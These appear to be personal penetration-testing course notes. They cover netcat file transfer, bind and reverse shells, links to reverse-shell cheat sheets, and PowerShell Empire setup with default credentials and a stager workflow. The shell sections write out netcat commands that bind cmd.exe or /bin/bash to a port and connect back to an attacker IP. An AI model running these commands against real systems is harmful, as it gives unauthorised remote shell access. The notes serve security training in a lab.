 * transfer files
    * target system
        * nc -nvlp 1234 > exploit.txt
    * source sytem
        * nc -nv target_ip 1234 < exploit.txt


### Bind Shells

* Attacker system directly connects to a listener on the Victim system
    * This will need a listener set up on target system
        * ex: nc -nvlp 1234 -e cmd.exe
* A Reverse Shell is opposite, target connects back to a listener setup on attacker system
* lab
    * setup listener on target
        * nc -nvlp 1234 -e cmd.exe (This is for windows)
        * nc -nvlp 1234 -c /bin/bash (This is for linus)
    * connect to target from attacker system
        * nc -nv <target_ip> 1234 (linux & windows)

### Reverse Shells

* Targets connects to listener on Attacker system
    * This can be done without nc, like a meterpreter payload
* Issue
    * This reveals IP address of the attacker infrastructure
* The lab
    * setup listener on attacker system
        * nc -nvlp 1234
    * connect to attacker through reverse shell
        * nc.exe -nv <attacker_ip> 1234 -e cmd.exe

### Reverse Shell cheat sheet

* https://github.com/swisskyrepo/PayloadsAllTheThings
    * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp (bash TCP)
    * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell (powershell TCP)
* https://www.revshells.com/

## Exploitation Frameworks

### Metasploit

* skipping..refer metasploit course for details
* [[link here]]

### Powershell Empire

* Pure PowerShell exploitation and post exploitation
* starkiller is GUI for powershell empire. Electron based
* setup
    * sudo apt-get update && sudo apt-get powershell-empire starkiller -y
    * sudo powershell-empire server (keep running)
    * (new tab) sudo powershell-empire client (cmdline interface)
    * starkiller app is present in app menu in kali, just open with defaults
        * username: empireadmin, password: password123
* demo
    * from starkiller
        * setup listener
        * setup stager
        * transfer stager to target
        * run stager on target